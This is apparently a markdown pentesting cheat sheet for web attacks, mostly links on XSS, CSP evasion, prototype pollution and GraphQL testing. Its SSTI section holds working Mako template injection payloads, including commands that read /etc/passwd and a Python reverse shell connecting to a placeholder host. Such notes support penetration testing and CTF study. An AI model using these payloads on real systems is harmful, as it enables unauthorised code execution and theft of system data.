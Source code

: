 # Web

## Resources
- [:alien: Revshells](https://www.revshells.com/)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology)

## SSTI
### Mako
```python
${4+4}
<%import os;x=os.popen('cat /etc/passwd').read()%>${x}
<%from pathlib import Path;x=Path('/etc/passwd').read_text()%>${x}
<%import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);%>
```

## XSS
- [Hacktricks XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [CSP evasion with JPG polyglot](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
  - [XSS jpg polyglot](https://infosecwriteups.com/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a)
  - [imgj_polygloter](https://github.com/s-3ntinel/imgjs_polygloter)
  - `<script charset="ISO-8859-1" type="text/javascript" src="/some/route"></script>`
- [CSP evasion with dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

## Misc
- [prototype pollution](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

## Graphql
### References
- [Hacktricks Graphql](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql#graphql)
- [jondow.eu/practical-graphql-attack-vectors](https://jondow.eu/practical-graphql-attack-vectors/)
- [graphql-common-vulnerabilities-how-to-exploit-them](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
- [common-security-test-cases-for-graphql-endpoints](https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4)
- [ghostlulz.com/api-hacking-graphql](http://ghostlulz.com/api-hacking-graphql/)
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
- [Portswigger graphql](https://portswigger.net/web-security/graphql)

## Foothold
  - SSTI
  - SQL injections
  - SSRF
  - XSS

